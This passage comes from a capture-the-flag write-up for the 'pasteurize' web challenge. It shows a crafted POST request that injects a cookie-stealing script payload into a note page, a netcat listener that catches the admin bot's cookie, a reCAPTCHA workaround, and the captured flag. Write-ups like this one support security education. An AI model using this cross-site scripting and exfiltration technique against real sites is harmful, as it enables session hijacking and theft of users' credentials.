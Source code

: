 The result will be the following.

```html
    <script>
        const note = "";alert();//":"pwn"";
        const note_id = "837822b4-0fc7-4137-ae64-c0881c6164fb";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
    </script>
```

At this point it is sufficient to have a listening host with `nc -lkv 1337`.

A request like the following can be crafted.

```
POST / HTTP/1.1
Host: pasteurize.web.ctfcompetition.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: https://pasteurize.web.ctfcompetition.com
Connection: close
Referer: https://pasteurize.web.ctfcompetition.com/
Upgrade-Insecure-Requests: 1

content[;document.location='http://x.x.x.x:1337?c='%2Bdocument.cookie;//]=pwn
```

The result will be the following. 

```
    <script>
        const note = "";document.location='http://x.x.x.x:1337?c='+document.cookie;//":"pwn"";
        const note_id = "32049c5d-b00d-46a8-bb5f-b600d4f46e39";
        const note_el = document.getElementById('note-content');
        const note_url_el = document.getElementById('note-title');
        const clean = DOMPurify.sanitize(note);
        note_el.innerHTML = clean;
        note_url_el.href = `/${note_id}`;
        note_url_el.innerHTML = `${note_id}`;
    </script>
```

To bypass problems with reCAPTCHA, it is sufficient to create another note and to change the HTML source, in order to signal it to TJMike passing the previous, malicious, `note_id`.

```
user@host:~$ nc -lkv 1337
Listening on [0.0.0.0] (family 0, port 1337)
Connection from 51.55.155.104.bc.googleusercontent.com 38470 received!
GET /?c=secret=CTF{Express_t0_Tr0ubl3s} HTTP/1.1
Pragma: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/85.0.4182.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Host: 52.47.121.145:1337
Via: 1.1 infra-squid (squid/3.5.27)
X-Forwarded-For: 35.233.52.193
```
